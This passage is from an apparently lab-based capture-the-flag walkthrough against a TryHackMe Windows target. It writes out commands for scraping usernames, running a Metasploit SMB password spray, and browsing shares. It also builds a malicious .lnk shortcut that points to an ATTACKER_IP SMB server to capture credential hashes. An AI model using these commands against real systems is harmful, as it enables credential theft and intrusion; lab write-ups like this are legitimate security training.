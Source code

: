 ```bash
curl -k https://set.windcorp.thm/assets/data/users.xml | grep -o '<email>[^<]*</email>' | sed 's/<[^>]*>//g' | cut -d'@' -f1 | sort | uniq > usernames.txt
```

5. Use Metasploit's SMB login scanner to test common passwords against the discovered usernames
   - Successfully discovered credentials: `myrtleowe:Passw@rd`

```bash
msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS <TARGET_IP>
set USER_FILE usernames.txt
set PASS_FILE /root/Tools/wordlists/SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt
run
creds
```

<img width="721" height="434" alt="SCREEN03" src="https://github.com/user-attachments/assets/f21bbcf3-dffa-44e9-8f81-92ca33d20f69" />

6. Use the discovered credentials to access SMB shares and gather information

```bash
smbclient -L //<TARGET_IP> -U myrtleowe
smbclient //<TARGET_IP>/Files -U myrtleowe
ls
get Info.txt
```

<img width="723" height="431" alt="SCREEN04" src="https://github.com/user-attachments/assets/aeb42e2c-8c78-45a7-bcf2-4cb60f4a620d" />

7. Read the downloaded file to obtain the first flag

```bash
cat Info.txt
```

<img width="721" height="110" alt="SCREEN05" src="https://github.com/user-attachments/assets/c229414b-eb1b-4f7a-a739-5d7aa347d533" />

---

### Flag 2

1. Download and use [mslink](https://www.mamachine.org/mslink/index.en.html) tool to create a malicious .lnk file that will capture credentials when opened. The malicious shortcut will attempt to connect to our SMB server when opened

```bash
./mslink_v1.3.sh -l test -n shortcut -i \\\\<ATTACKER_IP>\\share -o shortcut.lnk
zip shortcut.zip shortcut.lnk
```

2. Start an SMB server to capture authentication attempts from the malicious shortcut

```bash
sudo python3 /opt/impacket/examples/smbserver.py -smb2support share .
```
